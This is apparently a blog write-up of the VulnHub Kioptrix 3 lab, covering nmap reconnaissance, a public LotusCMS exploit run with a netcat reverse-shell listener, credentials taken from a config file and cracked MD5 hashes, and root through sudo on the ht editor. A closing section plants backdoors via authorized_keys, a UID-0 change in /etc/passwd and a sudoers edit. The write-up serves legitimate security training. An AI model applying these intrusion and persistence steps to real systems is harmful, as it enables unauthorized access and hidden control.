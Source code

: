```yaml
---
title: "Kioptrix 3"
date: 2024-05-10
draft: false
summary: "Writeup for Kioptrix level 3 of the Kioptrix series challenge on VulnHub."
tags: ["kioptrix", "linux", "CMS", "sudo"]
categories: ["writeups"]
series: []
showToc: true
cover:
  image: "https://cdn.ziomsec.com/kioptrix3/cover.png"
  caption: "Kioptrix 3 VulnHub Challenge"
  alt: "Kioptrix 3 cover"
platform: "VulnHub"
---
```


Kioptrix-3 is the third challenge in the Kioptrix series and similar to others, there’s more than one way to “pwn” this.
<!--more-->
To download Kioptrix 3, click 
- https://www.vulnhub.com/entry/kioptrix-level-12-3,24/

## Recon

After setting up the machine locally, I scanned the network to identify the target IP.

```bash
nmap -sn 192.168.1.0/24          
```

I then performed an **nmap** aggressive scan to find open ports, services and information about those services.

```shell
nmap -A -p- TARGET --min-rate 10000 -oN nmap.out
```

| **Port** | **Service** |
| -------- | ----------- |
| 22       | ssh         |
| 80       | http        |
****
![](https://cdn.ziomsec.com/kioptrix3/1.png)

## Initial Foothold

### Gaining Shell

I accessed the web application using my browser.

![](https://cdn.ziomsec.com/kioptrix3/2.png)

A redirection link on this page took me to another page that appeared incomplete.

![](https://cdn.ziomsec.com/kioptrix3/3.png)

I clicked opened *developer's options* and navigated to the _Network_ tab. Upon refreshing the page, I found a list of requests being made to a particular domain.

![](https://cdn.ziomsec.com/kioptrix3/4.png)

To resolve the domain, I mapped it to the target IP in the */etc/hosts* file.

![](https://cdn.ziomsec.com/kioptrix3/5.png)

At first, I did not find anything useful on the web page. Upon returning back to the home page, I noticed a login panel that revealed the name of the CMS being used.

So - I looked for exploits related to the CMS (**Lotus CMS**) on Google and found several results. I tried the below exploit that I found on Github and got a reverse shell.
- https://github.com/Hood3dRob1n/LotusCMS-Exploit

```shell
git clone https://github.com/Hood3dRob1n/LotusCMS-Exploit; cd LotusCMS-Exploit
```

![](https://cdn.ziomsec.com/kioptrix3/6.png)

I started a listener using **netcat** and executed the bash script.

```bash
rlwrap nc -lnvp 4444
# On another terminal
./lotsuRCE.sh TARGET
```

![](https://cdn.ziomsec.com/kioptrix3/7.png)

![](https://cdn.ziomsec.com/kioptrix3/8.png)

To streamline my activities, I exported my terminal and spawned a *pty* shell for ease of use.

```bash
export TERM=xterm
python -c 'import pty; pty.spawn("/bin/bash")'
```

## Getting User Access

I navigated to the *home* directory and discovered two additional users.

```shell
cd /home
ls
```

![](https://cdn.ziomsec.com/kioptrix3/9.png)

The *loneferret* user had a file containing an intriguing message.

```shell
cd loneferret; cat CompanyPolicy.README
```

![](https://cdn.ziomsec.com/kioptrix3/10.png)

Executing this command would require a password, so I examined the running services and identified MySQL.

```shell
ps -aux | grep mysql
```

![](https://cdn.ziomsec.com/kioptrix3/11.png)

It's in **safe** mode, so I would need another set of credentials to access it. Therefore, I searched for anything interesting in my own directory.

After searching around, I found a pair of credentials in `home/www/kioptrix3/gconfig.php`

![](https://cdn.ziomsec.com/kioptrix3/12.png)

So I logged into mysql using these credentials.

```shell
mysql -u root -p
# ENTER PASSWORD
```

![](https://cdn.ziomsec.com/kioptrix3/13.png)

I found the md5 hashed password of both *dreg* and *loneferret* in the `gallery` database.

![](https://cdn.ziomsec.com/kioptrix3/14.png)

To crack these hashes, I visited **crackstation**.
- https://crackstation.net/

![](https://cdn.ziomsec.com/kioptrix3/15.png)

| username   | password |
| ---------- | -------- |
| dreg       | Mast3r   |
| loneferret | starwars |
I then logged in as *loneferret* using **ssh**.

![](https://cdn.ziomsec.com/kioptrix3/16.png)

## Privilege Escalation

I viewed the command history of *loneferret* and found **ht** being run as **sudo**.

![](https://cdn.ziomsec.com/kioptrix3/17.png)

Hence I execute the command `sudo ht`

![](https://cdn.ziomsec.com/kioptrix3/18.png)

I pressed **F3** and was presented with an option to open any file. Since I was running the software using sudo privileges, I captured the flag from `/root/Congrats.txt`.

![](https://cdn.ziomsec.com/kioptrix3/19.png)

## Backdoor
### Using SSH keys

I generated SSH keys on my terminal.

```bash
ssh-keygen -t rsa -b 4096 -C "keyfork3"
```

I then copied the public key and stored it in **id_rsa.pub**.

![](https://cdn.ziomsec.com/kioptrix3/20.png)

Finally, I pasted this into the *authorized_keys* file in the *root* directory.

> *authorized_keys* is a special file present in the **.ssh** folder that contains public keys that are allowed to log in as that particular user. All it requires is for us to log in using our private key.

```
ALT+F -> new -> text -> paste the ssh key -> save as -> /root/.ssh/authorized_keys
```

![](https://cdn.ziomsec.com/kioptrix3/21.png)

### Using The  `/etc/passwd` File

I updated the **id** value in the `/etc/passwd` file of *loneferret* to **0**.

![](https://cdn.ziomsec.com/kioptrix3/22.png)

Upon reconnecting as *loneferret*, I got root access.

### Using Sudoers File

I modified the permissions of *loneferret* in the `/etc/sudoers` file to allow all commands as sudo.

![](https://cdn.ziomsec.com/kioptrix3/23.png)

I could then run any command as root.

![](https://cdn.ziomsec.com/kioptrix3/24.png)
## Closure

Here's a comprehensive summary of my successful penetration of the **Kioptrix L3** system:
- I exploited the CMS to gain initial access.
- Discovered user credentials within the `gconfig.php` file.
- Utilized **ht** software with **sudo** privileges to locate the flag in the root directory.
- Implemented three distinct methods to establish a backdoor.

That concludes my walkthrough. Until next time! :)

---
